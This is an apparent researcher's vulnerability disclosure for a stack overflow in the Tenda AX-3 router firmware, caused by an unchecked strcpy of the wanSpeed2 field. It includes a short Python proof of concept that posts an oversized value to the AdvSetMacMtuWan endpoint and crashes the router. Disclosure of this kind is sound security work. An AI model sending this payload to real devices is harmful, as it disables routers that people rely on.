



# Tenda Vulnerability

Vendor:Tenda

Product:AX-3

Version:v16.03.12.10_CN(https://www.tenda.com.cn/material/show/3238)

Vulnerability Type: Stack Overflow

Author:Chuanhao Wan

Mail:chuanhaowan@hust.edu.cn

Institution:Huazhong University of Science and Technology(HUST)


## Vulnerability cause

In the function fromAdvSetMacMtuWan, the wanSpeed2 value is obtained from the HTTP request via v13 = websGetVar(wp, "wanSpeed2", "0") and then copied into the memory region at mac - 60 using strcpy(mac - 60, v13). Here, mac points inside the stack-allocated array WAN_ARGUMENT wan_set_param[2], and the target location mac - 60 corresponds to a fixed-size buffer within the first WAN_ARGUMENT structure. Since this buffer has a limited size (much smaller than the maximum possible size of the user-supplied input) and strcpy does not perform any bounds checking, providing an excessively long wanSpeed2 parameter allows an attacker to overflow the destination buffer. This results in writing past the buffer's boundaries, corrupting adjacent stack memory and potentially overwriting variables and control data, which can cause a crash and result in a Denial of Service condition.

<div  align="center"></div>
<div  align="center"></div>


## PoC
In order to reproduce the vulnerability, the following steps can be followed:

1.Boot the firmware by qemu-system or other ways (real machine)

2.Attack with the following POC attacks


```
import requests

url = "http://192.168.20.12/goform/AdvSetMacMtuWan"

wanSpeed2 = "A"*7000
data = {
"wanSpeed2": wanSpeed2
}

r = requests.post(url, data=data)
print(r.status_code, r.text)


```


## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"></div>
<div  align="center"></div>